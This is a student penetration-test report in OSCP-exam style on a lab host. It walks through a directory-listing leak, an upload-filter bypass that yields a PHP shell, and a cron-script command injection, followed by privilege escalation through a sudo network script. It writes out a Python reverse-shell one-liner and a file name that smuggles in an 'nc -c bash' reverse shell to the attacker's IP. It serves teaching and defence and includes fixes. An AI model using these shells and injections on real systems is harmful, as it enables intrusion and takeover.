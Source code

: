 ```yaml
---
title: "Offensive Security Checkpoint 01"
author: ["RM87187@fiap.com.br, RM86663@fiap.com.br, RM87101@fiap.com.br, RM87079@fiap.com.br, RM88582@fiap.com.br"]
date: "2022-09-01"
subject: "Pentest report"
subtitle: "OSCP like exam report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```

# Offensive Security OSCP like exam report


## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The students is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.

# High level summary

I was tasked with conducting an internal penetration test for the offensive security exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to carry out attacks, similar to those of a hacker and try to infiltrate the machine chosen by the teacher.
My overall goal was to assess the target and escalate privilege on the machine.
During internal penetration testing, several alarming vulnerabilities were identified in the target.

## Recommendations

We recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit this system in the future.

# Methodologies

We use a widely adopted approach to performing penetration testing.
Below is a summary of how we were able to identify and exploit each individual vulnerability found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, we were tasked with exploiting the target chosen by teacher.
The specific IP addresses were:

- 192.168.57.5

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.57.5      | **TCP**: 22,80,443\
		    

**Nmap Scan Results:**

![Nmap scan](https://github.com/Alta-Cupula/Offensive/blob/main/imagem1.png)

*Initial Shell Vulnerability Exploited*

When enumerating the HTTP service, a "backup" directory was identified that has a directory listing issue and gave us access to a compressed file called "backup.tar".
![Directory Listing](https://github.com/Alta-Cupula/Offensive/blob/main/imagem2.png)

After unzipping the file we can read the source codes:
![Source code - upload](https://github.com/Alta-Cupula/Offensive/blob/main/uploadphp.png)
![Source code - lib](https://github.com/Alta-Cupula/Offensive/blob/main/libphp1.png)
![Source code - lib](https://github.com/Alta-Cupula/Offensive/blob/main/libphp2.png)

Analyzing the code, we can see that it checks if the file size is smaller than 60,000, checks if a file is actually being uploaded and checks if the file extension matches any of those in a predefined list. For that it uses the "getnameUpload" function, which exists in the "lib.php" file that is imported for use in the upload form.
This "getnameUpload" function creates a variable called "pieces" and splits the filename into parts, the "name" variable takes these pieces and replaces "." by "_" and the variable "ext" takes the last part after the "." to check the extension.
So when PHP executes the function, PHP takes the name of the image, for example "gabriel.png", reads it as an array and separates it into parts.
part 0 = gabriel
part 1 = png
It executes the variable "name" which has the value "gabriel", tries to replace all "." by "_" but as it has none, the value remains "gabriel" and executes the variable "ext" which has the value "png".
Now if we use the example "gabriel.php.png" PHP will separate it into 3 parts:
part 0 = gabriel
part 1 = php
Part 2 = png
The variable "name" still has the value "gabriel", it tries to replace all the "." by "_" but as it doesn't have any value, it's still "gabriel", but this time the variable "ext" will have "php.png" as its value.
We can also see a function called "check_file_type" that is checking the magic bytes of the file being uploaded, which means that just changing the extension in this case would not work, as the file must actually have the magic byte of a png or another file listed in the array earlier.

![Bless](https://github.com/Alta-Cupula/Offensive/blob/main/bless.png)

After creating a PHP shell with the characteristics that we have already identified as being necessary, we get an RCE in the application.
![Uploading](https://github.com/Alta-Cupula/Offensive/blob/main/requisicao.png)
![RCE](https://github.com/Alta-Cupula/Offensive/blob/main/rce.png)

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.57.4",6123));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' ```

Using python we got the reverse shell.
![Reverse](https://github.com/Alta-Cupula/Offensive/blob/main/reverse.png)


**Vulnerability Explanation: In this case, there were several vulnerabilities that led to the initial compromisement of the target, such as information disclosure due directory listing and unrestricted file upload.**

**Vulnerability Fix:
Directory listing can be disabled in the webserver configuration file.
To solve the information disclosure you can change the permission of the file "backup.tar".
Ways to fix unrestricted file upload issue:
- The file types allowed to be uploaded should be restricted to only those that are necessary for business functionality.
- Never accept a filename and its extension directly without having an allow list filter.
- The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.**

**Severity: Critical**

**user.txt Proof Screenshot**
![Guly](https://github.com/Alta-Cupula/Offensive/blob/main/gulyflag.png)


#### Privilege Escalation

When accessing the user directory "guly" we do not have permission to read the file "user.txt", however reading the file "crontab.guly" we can see that there is a configuration that executes the file "/home/guly/check_attack. php" every 3 minutes.
![Crontab](https://github.com/Alta-Cupula/Offensive/blob/main/crontab.png)

So when reading the file check_attacks.php we can see a variable "$path" that has the static value defined as "/var/www/html/uploads", however the variable "value" is created receiving the input of "files".
The variable "files" is using PHP's "scandir" function passing the value "." meaning it wants to list all files and directories in THIS directory. Which means that if we create a file putting malicious content in the name PHP will probably try to execute it.
So, creating a file called ";nc -c bash 192.168.57.4 9999;" we can get a reverse shell as guly because in line code would be: "exec("nohup /bin/rm -f /var/www/html/uploads;nc -c bash 192.168.57.4 9999; > /dev/null 2>&1 &")"
![Malicious file](https://github.com/Alta-Cupula/Offensive/blob/main/arquivomalicioso.png)
![Reverse as guly](https://github.com/Alta-Cupula/Offensive/blob/main/reverseasguly.png)
![Guly]([path/gulyflag.jpg](https://github.com/Alta-Cupula/Offensive/blob/main/gulyflag.png))

After being as guly we run the command "sudo -l" and notice that there is a script that we have permission to run as root.
![SUID file](https://github.com/Alta-Cupula/Offensive/blob/main/suid.png)

The script contains some variables with static content but others that are received by user input, and when it comes to network script where the variable format is "test=gabriel", then if we add a space after the term "gabriel" and we write, that term will be executed.
![Privesc](https://github.com/Alta-Cupula/Offensive/blob/main/privesc.png)

*Additional Priv Esc info*

**Vulnerability Exploited: Command injection in the "check_attacks.php" script and abuse of network script with SUID.**

**Vulnerability Explanation: These vulnerabilities allowed command injection only by not handling user input and reflecting it directly in the script **

**Vulnerability Fix:Fix check_attacks.php handling with user input**

**Severity: Critical**

**Proof Screenshot Here:**
![Privesc](https://github.com/Alta-Cupula/Offensive/blob/main/privesc.png)
